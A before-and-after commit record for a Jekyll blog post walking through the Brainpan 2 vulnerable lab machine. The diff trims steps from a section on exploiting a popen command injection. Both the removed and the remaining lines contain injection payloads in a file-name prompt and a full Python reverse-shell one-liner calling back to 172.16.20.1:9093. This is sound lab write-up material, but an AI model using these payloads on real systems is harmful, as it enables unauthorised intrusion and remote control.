

Before and after one commit to aldur/aldur.github.io, a Jekyll site: the page built from _posts/2015-11-20-brainpan-2.md, in a window 1280 px wide and 900 px high, scrolled down 7288 px. Shown: the whole window, without its empty margins (347-1125 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
Simplify Brainpan 2 walktrough

```diff
--- a/_posts/2015-11-20-brainpan-2.md
+++ b/_posts/2015-11-20-brainpan-2.md
@@ -274,15 +274,10 @@ anansi: dropped configuration file - leave it hardcoded, version 1.9
 {% endhighlight %}
 
 This hints that they're using `popen("cat <filename>", "r")` to display the content of those files.
-We can also create the files we like, with the `CREATE` command.
 Can we trick `popen` into executing arbitrary commands?
 Yes we can!
 
 {% highlight bash %}
-                          >> CREATE
-    ENTER FILE TO CREATE: aldur; id
-    ENTER CONTENTS:
-    FILE CREATED
                           >> VIEW
     ENTER FILE TO DOWNLOAD: aldur; id
 uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
@@ -291,10 +286,6 @@ uid=1000(anansi) gid=1000(anansi) groups=1000(anansi),50(staff)
 Great! Let's spawn a reverse shell.
 
 {% highlight bash %}
-                          >> CREATE
-    ENTER FILE TO CREATE: aldur;  python -c 'import socket as so,subprocess as su,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("172.16.20.1",9093));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=su.call(["bash","-i"])'
-    ENTER CONTENTS:
-    FILE CREATED
                           >> VIEW
     ENTER FILE TO DOWNLOAD: aldur;  python -c 'import socket as so,subprocess as su,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("172.16.20.1",9093));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=su.call(["bash","-i"])'
 {% endhighlight %}
```
